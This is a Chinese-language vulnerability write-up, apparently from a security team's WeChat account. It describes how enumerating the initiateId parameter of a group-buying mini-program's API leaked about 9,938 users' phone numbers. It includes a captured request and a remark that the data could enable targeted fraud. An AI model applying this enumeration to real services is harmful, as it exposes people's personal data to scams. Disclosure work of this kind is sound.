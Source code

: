 # 记一次容易被忽视的功能点造成的大量信息泄露

发布时间: 

  
![](/images/记一次容易被忽视的功能点造成的大量信息泄露/1752587233119.gif)**总体情况**  
  
  

某拼团小程序存在系统信息泄露漏洞

以下为漏洞详情

**0****1**  
  
  
  
![1.png](/images/记一次容易被忽视的功能点造成的大量信息泄露/1752587233170.png)  
**0****2**  
  
  
**点击拼团详情，抓包**![2.png](/images/记一次容易被忽视的功能点造成的大量信息泄露/1752587233427.png)

数据包：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    GET /zinfo/tail?initiateId=4&target=2 HTTP/1.1Host: xxxxxAccept: application/json, text/plain, */*Xweb_xhr: 1Authorization: NTc3ODU0MzRFODVGNDRENkY0NzE0MDMwREU1NTc3NERDMkYzNUU0NDNCN0E1NDRENDQ3NzZBQjgxMTA4OUEyNA==User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36 MicroMessenger/7.0.20.1781(0x6700143B) NetType/WIFI MiniProgramEnv/Windows WindowsWechat/WMPF WindowsWechat(0x63090c33)XWEB/13487Content-Type: application/x-www-form-urlencodedSec-Fetch-Site: cross-siteSec-Fetch-Mode: corsSec-Fetch-Dest: emptyReferer: https://servicewechat.com/wx90229e983b201cf1/109/page-frame.htmlAccept-Encoding: gzip, deflate, brAccept-Language: zh-CN,zh;q=0.9Priority: u=1, iConnection: keep-alive

  

从手机号尾数可得泄露号码为第一个拼团用户号码

![3.png](/images/记一次容易被忽视的功能点造成的大量信息泄露/1752587233491.png)

  

![4.png](/images/记一次容易被忽视的功能点造成的大量信息泄露/1752587233600.png)  
**0****3**  
  
  
**进行initiateId遍历可获得大量拼团用户手机号码**![5.png](/images/记一次容易被忽视的功能点造成的大量信息泄露/1752587233704.png)

9938个电话号码

![6.png](/images/记一次容易被忽视的功能点造成的大量信息泄露/1752587233838.png)

由于用户均为参加拼团用户，且为未拼团成功的用户可利用这一点进行定点诈骗等添加个人信息微信。

![7.png](/images/记一次容易被忽视的功能点造成的大量信息泄露/1752587234000.png)  
  
![](/images/记一次容易被忽视的功能点造成的大量信息泄露/1752587234107.gif)  

最后，欢迎来自不同背景的师傅加入我们，一起打造一个活跃的交流社群，在SNL社群没有背景、能力的差异，我们欢迎大家一起学习进步。

我们是一支多元化的安全技术团队，成员活跃在渗透测试、漏洞挖掘、逆向工程等多个安全领域。日常社群氛围充满技术热情：大家会一起分析最新漏洞案例，组织内部渗透测试实战，协作开发安全研究项目。

团队定期开展技术分享会，从Web安全到二进制漏洞，从CTF解题技巧到企业级安全防护，各种技术话题都能在这里碰撞出火花。如果你也热衷于安全技术的实践与交流，欢迎加入我们一起成长！  

  

[SecNL团队常态化招新提示](https://mp.weixin.qq.com/s?__biz=MzU2MDE2MjU1Mw==&mid=2247485938&idx=1&sn=d28961da6f0319864bb5dfcc4a867da3&scene=21#wechat_redirect)

  

